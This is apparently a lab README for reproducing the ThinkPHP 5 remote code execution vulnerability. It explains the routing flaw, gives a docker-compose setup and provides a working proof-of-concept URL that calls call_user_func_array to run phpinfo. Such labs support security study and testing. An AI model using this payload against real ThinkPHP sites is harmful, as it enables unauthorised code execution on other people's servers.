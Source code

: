 # Thinkphp5 5.0.22/5.1.29 Remote Code Execution Vulnerability

[中文版本(Chinese version)](README.zh-cn.md)

ThinkPHP is an extremely widely used PHP development framework in China. In its version 5, as the framework processes controller name incorrectly, it can execute any method if the website doesn't have mandatory routing enabled (which is default), resulting in a RCE vulnerability. 

Reference links：

- http://www.thinkphp.cn/topic/60400.html
- http://www.thinkphp.cn/topic/60390.html
- https://xz.aliyun.com/t/3570

## Environment Setup

Enter the following command：(ThinkPHP version:5.0.20)

```
docker-compose up -d
```

Visit `http://your-ip:8080` and you'll see the default page of ThinkPHP.

## POC

Directly visit `http://your-ip:8080/index.php?s=/Index/\think\app/invokefunction&function=call_user_func_array&vars[0]=phpinfo&vars[1][]=-1` and it'll execute the phpinfo：

![](1.png)
